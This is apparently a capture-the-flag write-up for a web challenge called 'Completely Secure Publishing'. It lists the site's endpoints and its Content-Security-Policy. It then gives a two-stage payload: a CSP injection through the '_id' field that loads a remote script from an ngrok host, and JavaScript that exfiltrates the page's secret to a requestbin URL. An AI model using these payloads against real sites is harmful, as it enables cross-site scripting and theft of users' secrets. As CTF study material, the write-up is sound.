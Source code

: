 # Completely Secure Publishing
### Author: anli

This publishing site is running a writing competition! Can you win the flag?
https://objects.bcactf.com/bcactf2/csp/server.js
http://webp.bcactf.com:49154/

## Notes

- Usage: Create and publish user controlled pages, which can be previewed, and
  then submitted to judges.
- Endpoints:
  - POST /visit
    Bot sets cookie to secret value and visits our page for 3s
  - POST /publish
    Inserts record into the DB, no validations
  - POST /report-csp-violation
    Increments CSP violations and cspChars accordingly
  - GET /page/:id
    Renders user controlled page as HTML, rendering the prize if we set the
    cookie "secret" to the right value.
    Sets CSP to `child-src 'none'; connect-src 'none'; default-src 'none';
    font-src 'none'; frame-src 'none'; img-src 'none'; manifest-src 'none';
    media-src 'none'; object-src 'none'; prefetch-src 'none'; script-src
    'report-sample'; style-src 'report-sample'; worker-src 'none'; report-uri
    /report-csp-violation?id=${req.params.id}`

- Vulns
  - Partial DB write ability through `...req.body` on LN14
  - No HTML validation on page body HTML content

- **Action Plan**
  - [DONE] Create custom page using CSP injection of `_id` to allow for XSS
  - Use XSS to exfil the flag/secret from the page

## Payloads
### Stage 1
- make sure to use %20 in URL for spaces for visiting it manually)
- Stage 2 hosted locally with `python2 -m SimpleHTTPServer` and ngrok
```
POST /pubilsh
{ "_id": "tpurpX; script-src-elem *", "title":"TPurp", "content":"<script src='http://7a795cc29696.ngrok.io/stage2.js'></script>" }
{
```

### Stage 2
Exfill site via requestbin.com
```
document.addEventListener("DOMContentLoaded", function() {
  var script = document.createElement('script');
  var payload = document.querySelector('p').innerText;
  script.src = 'https://enpvax575bdmd.x.pipedream.net/' + encodeURIComponent(payload)  + '.js'
  document.body.appendChild(script);
});
```
